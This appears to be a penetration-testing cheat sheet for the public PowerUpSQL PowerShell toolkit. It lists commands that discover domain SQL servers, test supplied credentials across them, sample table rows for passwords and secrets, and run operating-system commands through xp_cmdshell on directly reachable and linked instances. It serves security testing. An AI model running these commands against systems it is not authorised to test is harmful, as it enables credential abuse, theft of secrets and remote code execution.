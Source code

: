 ### Source
https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1  

### Discover active directory domain SQL server
```
Get-SQLInstanceDomain -Verbose -DomainController <dc> | Get-SQLServerinfo -Verbose
```

### List accessible SQL server using credentials
```
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username <user> -password <password> | Where-Object {$_.Status -like "Accessible"}
```

### Get information from specific instance
```
Get-Sqlserverinfo -instance <instance>
```

### Scan for misconfiguration
```
Invoke-sqlaudit -instance <instance>
```

### Search database rows for specific keywords (NoDefaults skip default tables)
```
Get-SQLColumnSampleData –Verbose –Keyword "secret,password" –SampleSize 10 –NoDefaults -Instance <instance>
```

### Execute command
```
Invoke-SQLOSCmd -Instance <instance> -Command '<command>' -RawResults
```

### Execute query
```
Get-SQLQuery -Instance <instance> -Query 'SELECT * FROM master..sysservers'
```

### Scan for linked databases
```
Get-SQLServerLinkCrawl -Instance <instance>
```

### Execute commands on linked instances
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>'"
```

### Excute command on linked mssql instance via instance (xp_cmdshell can not be enabled by OpenQuery)
```
Get-SQLServerLinkCrawl -Instance <instance> -Query "exec master..xp_cmdshell '<command>' "
```

